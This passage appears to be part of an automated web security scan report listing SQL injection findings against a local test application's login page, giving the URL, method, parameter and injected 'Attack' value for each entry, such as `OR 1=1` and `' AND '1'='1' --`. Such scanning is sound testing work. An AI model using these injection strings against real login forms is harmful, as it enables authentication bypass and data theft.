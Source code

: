   
  * Parameter: `csrf_token`
  
  
  * Attack: `ImEzYjY1YjQxOTg5YTEzM2E0ODdhNWUxMTY3MzNkNzI4Y2IzYzZjYTQi.XbIS1A.sD5LkCRn4Hpv1dyr8xuBZiZ67pc%'  -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/login?next=/spell_check](http://192.168.7.30:8080/login?next=/spell_check)
  
  
  * Method: `POST`
  
  
  * Parameter: `password`
  
  
  * Attack: `zakk1989%`
  
  
  
  
* URL: [http://192.168.7.30:8080/login](http://192.168.7.30:8080/login)
  
  
  * Method: `POST`
  
  
  * Parameter: `username`
  
  
  * Attack: `kurlee OR 1=1`
  
  
  
  
* URL: [http://192.168.7.30:8080/login](http://192.168.7.30:8080/login)
  
  
  * Method: `POST`
  
  
  * Parameter: `submit`
  
  
  * Attack: `Sign in%'  -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/login](http://192.168.7.30:8080/login)
  
  
  * Method: `POST`
  
  
  * Parameter: `csrf_token`
  
  
  * Attack: `IjYxNGU2YWM5YzJlNzdiZTJiNTBjMzBlZmVmNTU0NmM3Yzk5MDhmZWYi.XbC8WQ.TM4FPbi_zW5-ggkjwVD0OtCebSU' AND '1'='1' -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/login?next=/spell_check](http://192.168.7.30:8080/login?next=/spell_check)
  
  
  * Method: `POST`
  